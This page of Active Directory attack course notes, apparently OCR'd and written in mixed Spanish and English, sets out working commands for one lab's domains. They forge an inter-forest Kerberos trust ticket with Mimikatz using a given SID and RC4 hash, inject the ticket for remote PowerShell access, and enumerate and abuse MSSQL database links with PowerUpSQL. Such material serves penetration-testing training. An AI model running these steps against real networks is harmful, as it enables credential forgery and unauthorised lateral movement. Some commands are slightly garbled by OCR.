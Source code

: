     `Invoke-Mimikatz -Command '"kerberos::golden 
    /user:Administrator /domain:eu.local /sid:S-1-5-21-
    3657428294-2017276338-1274645009 
    /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt
    /target:euvendor.local /sids:S-1-5-21-4066061358-
    3942393892-617142613-1103 
    /ticket:C:\Users\Public\euvendornet.kirbi"'`

Request a TGS:

`.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local`

Inject that into current session:

`.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi`

Acceda a la máquina euvendor-net usando PSRemoting:

`Invoke-Command -ScriptBlock{whoami} -ComputerName euvendornet.euvendor.local -Authentication NegotiateWithImplicitCredential`

**Trust Abuse - MSSQL Servers**

- Los servidores MS SQL generalmente se implementan en abundancia en un dominio de Windows.
- Los servidores SQL brindan muy buenas opciones para el movimiento lateral, ya que permiten mapear usuarios de dominio a roles de base de datos y así convertirse en parte de
AD trusts.
- Veamos un escenario en el que podemos abusar de la confianza de los servidores SQL y de los enlaces de bases de datos para traspasar los límites de la confianza del bosque.
- Para piratería informática de MSSQL y PowerShell, usemos PowerUpSQL

    [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

Discovery (SPN Scanning):

`Get-SQLInstanceDomain`

Check Accessibility

`Get-SQLConnectionTestThreaded`

`Get-SQLInstanceDomain | Get SQLConnectionTestThreaded -
Verbose`

Recopilar información

`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`

**Trust Abuse - MSSQL Servers - Database Links**

- Un enlace de base de datos permite que un servidor SQL acceda a fuentes de datos externas como otros servidores SQL y fuentes de datos OLE DB.
- En el caso de enlaces de bases de datos entre servidores SQL, es decir, servidores SQL enlazados, es posible ejecutar procedimientos almacenados.
- Los enlaces de bases de datos funcionan incluso en trusts forestales.

Searching Database Links

Look for links to remote servers

`Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose`
